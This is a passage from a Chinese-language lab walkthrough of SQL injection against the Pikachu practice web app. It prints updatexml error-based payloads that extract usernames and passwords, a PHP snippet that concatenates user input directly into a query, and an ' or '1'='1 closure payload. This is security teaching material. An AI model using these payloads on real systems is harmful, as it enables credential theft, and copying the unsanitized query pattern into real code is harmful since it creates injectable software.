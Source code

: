 ![image](../../../../assets/img/安全/实验/Misc/pikachu/41.png)

![image](../../../../assets/img/安全/实验/Misc/pikachu/42.png)

数据 `a' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#`

![image](../../../../assets/img/安全/实验/Misc/pikachu/43.png)

数据 `a' and updatexml(1,concat(0x7e,(select password from users limit 0,1)),0)#`

![image](../../../../assets/img/安全/实验/Misc/pikachu/44.png)

### xx 型注入

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

参照代码,这里使用字符型且没有使用相似查询,然而这个不重要,关键是构造一个闭合

payload: `' or '1' = '1 #`

### "insert/update" 注入

insert 注入,就是前端注册的信息最终会被后台通过 insert 这个操作插入数据库,后台在接受前端的注册数据时没有做防 SQL 注入的处理,导致前端的输入可以直接拼接 SQL 到后端的 insert 相关内容中,导致了 insert 注入.
